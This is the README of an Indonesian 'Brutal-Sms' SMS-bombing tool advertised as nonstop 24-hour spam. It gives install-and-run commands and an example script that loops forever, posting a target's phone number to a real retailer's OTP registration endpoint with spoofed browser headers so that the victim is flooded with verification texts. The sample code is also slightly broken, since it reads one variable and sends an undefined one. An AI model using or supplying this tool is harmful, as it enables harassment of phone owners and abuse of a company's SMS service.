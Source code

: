 ## Brutal-Sms
Perfect Tools spam 24 jam non stop

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  pip install colorama requests bs4
  git clone https://github.com/AmmarrBN/Brutal-Sms
  cd Brutal-Sms
  python run.py
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>
  ```bash
  Example:
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop example </strong></summary>
  ```bash
  abc=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Ammar%20Executed&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)


[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Lord%20Ganz&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)
[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Lord%20Ganz&color=green)](https://youtube.com/channel/UCFeZ5BGt8lbOZwIj2MNOlIQ)

